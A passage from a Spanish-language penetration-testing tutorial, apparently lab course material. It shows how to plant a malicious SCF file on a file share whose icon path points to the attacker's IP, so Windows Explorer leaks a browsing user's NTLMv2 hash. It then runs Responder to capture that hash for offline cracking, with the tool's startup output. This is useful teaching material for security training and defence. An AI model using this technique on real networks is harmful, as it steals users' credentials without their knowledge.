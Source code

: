 ### Malicious SCF File

En este ejemplo, crearemos el siguiente archivo y lo nombraremos algo así como `@Inventory.scf` (similar a otro archivo en el directorio, para que no parezca fuera de lugar). Ponemos un `@` al inicio del nombre del archivo para que aparezca en la parte superior del directorio y sea visto y ejecutado por Windows Explorer tan pronto como el usuario acceda al compartido. Aquí ponemos nuestra dirección IP `tun0` y cualquier nombre de compartido y nombre de archivo .ico falsos.

```r
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

### Starting Responder

A continuación, iniciamos Responder en nuestra máquina de ataque y esperamos a que el usuario navegue por el compartido. Si todo va según lo planeado, veremos el hash de la contraseña NTLMv2 del usuario en nuestra consola e intentaremos descifrarlo offline.

```r
sudo responder -wrf -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
```